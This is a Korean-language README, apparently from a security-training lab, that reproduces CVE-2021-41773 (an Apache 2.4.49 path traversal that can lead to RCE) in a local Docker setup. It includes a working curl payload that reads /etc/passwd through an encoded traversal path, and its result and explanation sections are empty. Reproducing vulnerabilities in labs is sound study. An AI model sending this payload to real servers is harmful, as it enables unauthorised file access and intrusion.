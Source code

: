 # CVE-2021-41773 [Apache HTTP Server Path Traversal & RCE]

> 화이트햇 스쿨 3기 - [이준영 (@ljyoung04)](https://github.com/ljyoung04)

<br/>

## 요약

- Apache HTTP Server 2.4.49 버전의 경로 정규화 변경 사항에서 결함이 발견되었습니다.
- 이 결함을 사용하여 Path Traversal 공격을 수행하여 Alias와 유사한 지시문으로 구성된 디렉터리 외부의 파일에 접근할 수 있습니다.
- 또한 CGI 스크립트 실행이 활성화되어 있다면 RCE가 가능할 수도 있습니다.
- 실제로 악용된 사례가 있으며 오직 Apache 2.4.49 버전에만 해당됩니다.
- 이 취약점에 대한 수정이 이루어졌지만, 수정이 불완전하여 CVE-2021-42013으로 이어졌습니다.

<br/>

## 환경 구성 및 실행

다음 명령어를 입력하여 취약한 도커 환경을 구축할 수 있다.

```
$ sudo docker compose up -d
```

```
$curl localhost:8080
<meta charset="UTF-8" />
<h1>WHS 3기 이준영</h1>
<h2>CVE-2021-41773 TEST</h2>
$
```

아래와 같이 입력하여 Path Traversal 공격을 수행할 수 있다.

```
curl --path-as-is -v http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

<img src="https://github.com/ljyoung04/kr-vulhub/Apache/CVE-2021-41773/image.png">
<br/>

## 결과

<br/>

## 설명
